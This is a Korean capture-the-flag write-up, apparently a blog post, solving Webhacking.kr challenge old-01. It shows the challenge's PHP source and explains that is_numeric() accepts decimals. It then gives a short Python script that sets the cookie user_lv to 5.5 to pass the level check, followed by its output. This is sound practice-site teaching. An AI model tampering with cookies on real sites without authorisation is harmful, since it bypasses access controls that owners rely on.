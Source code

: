 ```yaml
---
layout: post
title: old-01
author: bindon
category: Webhacking.kr
date: 2019-11-27
---
```


# Problem Analysis
![old-01-problem]({{site.url}}{{site.baseurl}}{{site.assets_path}}/img/posts/Web Hacking KR/old-01-problem.png){:style="display: block; margin: 0 auto"}

이 페이지에서는 사용자의 입력을 받는 부분이 따로 나타나지 않기 때문에, 바로 view-source 링크를 클릭하여 코드를 확인합니다.

```php
<?php
  include "../../config.php";
  if($_GET['view-source'] == 1){ view_source(); }
  if(!$_COOKIE['user_lv']){
    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
    echo("<meta http-equiv=refresh content=0>");
  }
?>
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```
코드의 상단 부분을 먼저 확인하면 쿠키가 없을 때 `user_lv` 에 1을 넣는것을 확인할 수 있고, 실제로 페이지에 아무런 조작 없이 접속했을 때 쿠키에 `user_lv=1`이 할당된 것을 확인할 수 있습니다.
코드의 하단 부분을 확인하면 세 가지의 if문을 통해 아래와 같이 로직을 나누고 있습니다.
1. `user_lv`가 is_numeric()을 통과하지 못하면 `user_lv`를 1로 설정
2. `user_lv`가 6 이상이면 `user_lv`를 1로 설정
3. `user_lv`가 5 초과라면 `solve(1)`을 실행

우리의 목적은 1, 2를 우회하여 3을 실행하는 것입니다.
1번 조건은 숫자를 입력하면 됩니다.
2번 조건을 우회하기 위해 6 미만의 숫자를 입력해야 합니다.
3번 조건을 만족하기 위해 5 초과의 숫자를 입력해야 합니다.
즉, `is_numeric()`을 통과하며 $$ 5 < user\_lv < 6 $$을 만족하면 됩니다.

해당 조건을 만족하는 수를 알기 위해서는 [`is_numeric()`](https://www.php.net/manual/en/function.is-numeric.php)함수의 특징을 알아야 합니다.
`is_numeric()`은 부호, 10진수, 지수(e), 소수점을 허용합니다. 예를 들어 +0123.45e6는 올바른 값입니다.
즉 우리는 소수점을 사용하여 1번 조건을 우회할 수 있다는 것을 파악하였으므로, $$ 5 < user\_lv < 6 $$를 만족할 수 있는 값을 사용하면 됩니다.
여기서는 `user_lv`를 `5.5`로 정의하여 사용할 예정입니다.

# Implementation
```python
import login

print "[+] Login and get session"
session = login.getLoginSession()

print "[+] Set URL"
url = "https://webhacking.kr/challenge/web-01/"
print "[*] " + url

print "[+] Set cookies"
cookies = {
    "user_lv": "5.5"
}
print "[*] " + str(cookies)

print "[+] Exploit"
response = session.get(url=url, cookies=cookies)
print response.text
```

# Execution Result
```
[+] Login and get session
[+] Set URL
[*] https://webhacking.kr/challenge/web-01/
[+] Set cookies
[*] {'user_lv': '5.5'}
[+] Exploit
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<script>alert('already solved');</script><br>level : 5.5<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```